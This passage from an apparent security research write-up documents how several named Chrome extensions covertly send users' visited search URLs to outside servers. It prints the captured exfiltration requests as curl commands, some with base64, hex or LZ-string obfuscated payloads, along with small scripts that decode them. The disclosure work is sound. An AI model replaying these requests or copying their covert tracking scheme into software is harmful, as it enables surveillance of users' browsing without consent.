  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'content-type: application/json' \
  -b 'XXXXXX' \
  -H 'priority: u=1, i' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: none' \
  -H 'sec-fetch-storage-access: active' \
  -H 'user-agent: XXXXXX'
```

### CrxMouse: Mouse Gestures

`extension_id: jlgkpaicikihijadgifklkbpdajbkhjo`

```bash
curl 'https://api.mousegesturesapi.com/ms/gs' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: chrome-extension://jlgkpaicikihijadgifklkbpdajbkhjo' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-Storage-Access: active' \
  -H 'User-Agent: XXXXXX' \
  -H 'hiw8: www.google.com' \
  -H 'x-session-init: s=XXXXXX&v=6.3.4&p=0' \
  -H 'xr3r: 1767829778649' \
  --data-raw 'abr=eyJxIj...'
```

```js
const payload = `abr=eyJxIj...`;

const params = new URLSearchParams(payload);
params.forEach((value, key) => {
    const decodedString = Buffer.from(value, 'base64').toString('utf-8');
    const parsedJson = JSON.parse(decodedString);
    console.log(`URL param: ${key}`);
    console.dir(parsedJson, { depth: null, colors: true });
});
```
```
URL param: abr
{
  q: 'https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dtarget',
  link: 'https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dprev',
  prev: 'https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dprev'
}
URL param: smt
{
  hreferer: 'https%3A%2F%2Fwww.google.com%2F',
  iow: [ XXXXXX ],
  tt: 'form_submit'
}
URL param: urk
{ meta: 'exthead', ts: XXXXXX, ch: 0 }
URL param: eov
{ s: 'XXXXXX', pid: 'XXXXXX', tmv: 6 }
URL param: hja
{ md: 21, v: 1, sub: '6.3.4' }
URL param: nxp
{ app: 'XXXXXX' }
```

### ApkOnline APK manager for Android emulator

`extension_id: lnhnebkkgjmlgomfkkmkoaefbknopmja`

```bash
curl 'https://www.uptoplay.net/media/system/ext/c-2-androidemulator-x-y-2.php?url=68747470...&hex=XXXXXX&u=XXXXXX' \
  -H 'accept: */*' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'origin: chrome-extension://lnhnebkkgjmlgomfkkmkoaefbknopmja' \
  -H 'priority: u=1, i' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: cross-site' \
  -H 'user-agent: XXXXXX'
```
The URL parameter `url` has hex encoded value that after decoding shows `https://www.google.com/search?q=target`. SO, in this case trivial obfuscation.

### Similar Sites - Discover Related Websites

`extension_id: necpbmbhhdiplmfhmjicabdeighkndkn`

This is the same type of exfiltration data as in Similarweb extensions. 
```bash
curl 'https://data-api.similarsites.com/numberOfSimilarSites' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Content-type: application/x-www-form-urlencoded' \
  -b 'XXXXXX' \
  -H 'Origin: chrome-extension://necpbmbhhdiplmfhmjicabdeighkndkn' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-Storage-Access: active' \
  -H 'User-Agent: XXXXXX' \
  -H 'hiw8: www.google.com' \
  --data-raw 'e=q%3Dhttps...'
```

### Video Ad Blocker Plus for YouTube™

`extension_id: hegneaniplmfjcmohoclabblbahcbjoe`

In this case the decoding of the payload wasn't difficult, both keys and values are encoded with LZ string UTF16 compression.
```bash
curl 'https://safe.videoadblockerplus.com/validate' \
  -H 'Accept: */*' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Connection: keep-alive' \
  -H 'Origin: chrome-extension://hegneaniplmfjcmohoclabblbahcbjoe' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: none' \
  -H 'Sec-Fetch-Storage-Access: active' \
  -H 'User-Agent: XXXXXX' \
  -H 'bone: www.google.com' \
  -H 'content-type: application/x-www-form-urlencoded' \
  -H 'x4fs: XXXXXX' \
  --data-raw '%E0%A2%A2%E5...'
```
```js
const LZString = require('lz-string');
const payload = `%E0%A2%A2%E5...`;
payload.split('&').forEach(pair => {
    let parts = pair.split(/=(.+)/);
    let rawKey = parts[0];
    let rawValue = parts[1];
    const encodedKey = decodeURIComponent(rawKey).trim();
    const encodedVal = decodeURIComponent(rawVal).trim();
    const key = LZString.decompressFromUTF16(encodedKey);
    const val = LZString.decompressFromUTF16(encodedVal);
    console.log(`${key}: ${val}`);
});
```
The schema used is completely same as in BlockSite extensions, further proving those two are linked together. 
```
"ul": "https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dtarget"
"ink": "https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dprevious"
"pel": "https%3A%2F%2Fwww.google.com%2Fsearch%3Fq%3Dprevious"
"rr": "https%3A%2F%2Fwww.google.com%2F"
"dot": [XXXXXX]
"strm": "form_submit"
"poz": "exthead"
"lng": XXXXXX
"ch": 8
"rm": "XXXXXX"
"cas": "XXXXXX"
"v3": 6
"dis": 21
"cm": 1
"org": "1.2.4"
"info": "XXXXXX"
```

### Knowee AI - Your Homework and Essay Helper

`extension_id: fcejkolobdcfbhhakbhajcflakmnhaff`

We selected also this extensions to showcase that the leakage can be done also via request headers as it is in this case.
```bash
curl 'https://core.knowee.ai/api/users/me' \
  -H 'accept: */*' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'authorization;' \
  -H 'channel;' \
  -H 'client: extension' \
  -b 'XXXXXX' \
  -H 'device-id: XXXXXXc' \
  -H 'location: https://www.google.com/search?q=target' \
  -H 'platform: undefined' \
  -H 'priority: u=1, i' \
  -H 'promotion-code;' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: none' \
  -H 'sec-fetch-storage-access: active' \
  -H 'update-version: 4.2.0' \
  -H 'user-agent: XXXXXX'
```

### Super PiP - Picture-in-Picture with playback controls and subtitles

`extension_id: jjjpjmbnbdjhbkclajpagjkefefnednl`

The last exmaple we wanted to include is that GA can be also used for data exfiltration where even parameter can be simply visited URL. 
```bash
curl 'https://www.google-analytics.com/mp/collect?measurement_id=XXXXXX&api_secret=XXXXXX' \
  -H 'accept: */*' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'content-type: text/plain;charset=UTF-8' \
  -b 'ar_debug=1' \
  -H 'origin: chrome-extension://jjjpjmbnbdjhbkclajpagjkefefnednl' \
  -H 'priority: u=1, i' \
  -H 'sec-fetch-dest: empty' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-site: none' \
  -H 'sec-fetch-storage-access: active' \
  -H 'user-agent: XXXXXX' \
  --data-raw '{"client_id":"XXXXXX","events":[{"name":"page_view","params":{"trim_version":"pictureinpicture","page_title":"target - Google Search","request_id":"XXXXXX","page_location":"https://www.google.com/search?q=target","page_referrer":"https://www.google.com/","session_id":"XXXXXX","engagement_time_msec":100}}]}'
```


## Support us

If you like what we did and you would like to see further research on web extensions, mobile apps or on vscode extensions. Consider supporting us. This research was very time intensive.
```
XMR: 8AGJ7g1fhvs5Uw7BkCvEY4ZpYyUxCXtMU6EdftqKkgSdgz4w8iXtmYceL9CSJPKvrJEibhFNQGnp6ZErjdjvGdHJKhQo8Q7
BTC: bc1q34v2rx9kxpteck83j95a8dqe889cmfmgx0ay7q
```

![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAQAAAAD6CAMAAAB50mmfAAAC2WlUWHRYTUw6Y29tLmFkb2JlLnhtcAAAAAAAPHg6eG1wbWV0YSB4bWxuczp4PSJhZG9iZTpuczptZXRhLyIgeDp4bXB0az0iWE1QIENvcmUgNi4wLjAiPgogICA8cmRmOlJERiB4bWxuczpyZGY9Imh0dHA6Ly93d3cudzMub3JnLzE5OTkvMDIvMjItcmRmLXN5bnRheC1ucyMiPgogICAgICA8cmRmOkRlc2NyaXB0aW9uIHJkZjphYm91dD0iIgogICAgICAgICAgICB4bWxuczp0aWZmPSJodHRwOi8vbnMuYWRvYmUuY29tL3RpZmYvMS4wLyIKICAgICAgICAgICAgeG1sbnM6ZXhpZj0iaHR0cDovL25zLmFkb2JlLmNvbS9leGlmLzEuMC8iPgogICAgICAgICA8dGlmZjpZUmVzb2x1dGlvbj4xNDQ8L3RpZmY6WVJlc29sdXRpb24+CiAgICAgICAgIDx0aWZmOlJlc29sdXRpb25Vbml0PjI8L3RpZmY6UmVzb2x1dGlvblVuaXQ+CiAgICAgICAgIDx0aWZmOlhSZXNvbHV0aW9uPjE0NDwvdGlmZjpYUmVzb2x1dGlvbj4KICAgICAgICAgPHRpZmY6T3JpZW50YXRpb24+MTwvdGlmZjpPcmllbnRhdGlvbj4KICAgICAgICAgPGV4aWY6UGl4ZWxYRGltZW5zaW9uPjE0NDA8L2V4aWY6UGl4ZWxYRGltZW5zaW9uPgogICAgICAgICA8ZXhpZjpVc2VyQ29tbWVudD5TY3JlZW5zaG90PC9leGlmOlVzZXJDb21tZW50PgogICAgICAgICA8ZXhpZjpQaXhlbFlEaW1lbnNpb24+MTQxMDwvZXhpZjpQaXhlbFlEaW1lbnNpb24+CiAgICAgIDwvcmRmOkRlc2NyaXB0aW9uPgogICA8L3JkZjpSREY+CjwveDp4bXBtZXRhPgoFWC2QAAAACXBIWXMAABYlAAAWJQFJUiTwAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAA/UExURQgBBP///74rLCgMEp0gINE6OjQhJYFeVGlJQm8UFpVxZvfw79uhmU80MqY7PM+Ohrh8dNq0sebR0MxbWqaTjs5iwXIA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